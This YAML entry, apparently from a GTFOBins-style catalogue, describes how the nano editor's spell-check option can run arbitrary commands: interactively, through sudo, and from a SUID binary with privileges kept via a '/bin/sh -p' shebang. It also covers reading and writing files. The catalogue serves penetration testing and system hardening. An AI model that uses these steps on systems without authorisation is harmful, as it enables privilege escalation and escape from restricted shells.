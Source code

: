 ```yaml
---
functions:
  execute-non-interactive:
    - description: After running this exit the editor to see the command output.
      code: |
        COMMAND=id
        TF=$(mktemp)
        echo "$COMMAND" > $TF
        chmod +x $TF
        nano -s $TF
        ^T
  sudo-enabled:
    - description: After running this exit the editor to see the command output.
      code: |
        COMMAND=id
        TF=$(mktemp)
        echo "$COMMAND" > $TF
        chmod +x $TF
        sudo nano -s $TF
        ^T
  suid-enabled:
    - description: After running this exit the editor to see the command output.
      code: |-
        COMMAND=id
        TF=$(mktemp)
        echo $'#!/bin/sh -p\n'"$COMMAND" > $TF
        chmod +x $TF
        ./nano -s $TF
        ^T
  file-read:
    - code: |
        nano file_to_read
  file-write:
    - code: |
        nano file_to_write
        ^O
---
```

